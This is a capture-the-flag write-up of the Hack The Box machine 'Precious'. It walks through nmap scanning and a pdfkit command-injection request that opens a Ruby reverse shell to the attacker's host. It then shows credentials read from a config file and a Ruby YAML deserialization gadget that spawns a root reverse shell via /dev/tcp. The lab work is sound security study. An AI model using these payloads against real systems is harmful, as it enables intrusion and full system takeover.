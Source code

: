 ```yaml
---
layout: single
title: HTB - Precious
date: 2023-03-17
classes: wide
tags:
    - Ruby
    - Vulnerability
    - Scanning
    - HTB
    - Linux
---
```


Information Gathering and Vulnerability Scanning
--------------

Nmap:
```bash
$ nmap -sC -sV -A 10.10.11.189 -o nmap.out
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-29 12:30 EDT
Nmap scan report for 10.10.11.189
Host is up (0.037s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.31 seconds
```

---
Get headers from burpsuite and got the server software and version: **Phusion Passenger(R) 6.0.15**
```r
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Connection: close
Status: 200 OK
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Date: Wed, 29 Mar 2023 17:11:00 GMT
X-Powered-By: Phusion Passenger(R) 6.0.15
Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
X-Runtime: Ruby
Content-Length: 506
```
ExploitDB and CVE details does not show any vuln related. Still, it's valuable info!

---
Headers look weird to:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

why image?

---
htmltopdf 0.12.6 is the plugin for ruby for the pdf
https://cyber-guy.gitbook.io/cyber-guys-blog/blogs/initial-access-via-pdf-file-silently

---
webserver is running `pdfkit v0.8.6` for the html to pdf
https://github.com/shamo0/PDFkit-CMD-Injection
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795


Attack & Exploits
--------------
PDFkit-CMD-Injection looks really good.

```r
POST / HTTP/1.1
Host: precious.htb
Content-Length: 144
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://precious.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://precious.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


url=http%3a//10.10.14.101%3a4040/%3fname%3d%2520`+ruby+-rsocket+-e'spawn("bash",[%3ain,%3aout,%3aerr]%3d>TCPSocket.new("10.10.14.101",4040))'`
```

```bash
python -m http.server 80
nc -lvnp 4040 

cd /home/ruby
cat .bundle/config
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:***********" 

su henry
Password: ***********
id
uid=1000(henry) gid=1000(henry) groups=1000(henry)
cd
cat user.txt
**************
```

Priv escalation
--------------

Run common enum and found a custom script for update dependencies:
```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Found this about priv esc in ruby:
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/
```bash
henry@precious:~$ cd /home/henry/
henry@precious:~$ vi dependencies.yml 
```
```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/10.10.14.136/4040 0>&1'"
         method_id: :resolve
```

Set up netcat listener:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4040
listening on [any] 4040 ...
``` 

And finally run the script:
```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
```




Analysis
--------------

- Outdate version on webserver is running `pdfkit v0.8.6` for the html to pdf causes a RCE for ruby user :(
- Then a plain text stored creds lead into henry user being affected
- Finally, priv esc:
    - sudo admin rights for a custom script? that's a risk
    - conbined that the scrip is not using absolute path leads into root running any dependecies.yml that is provided

Really funny box!

~ Have Fun! ~

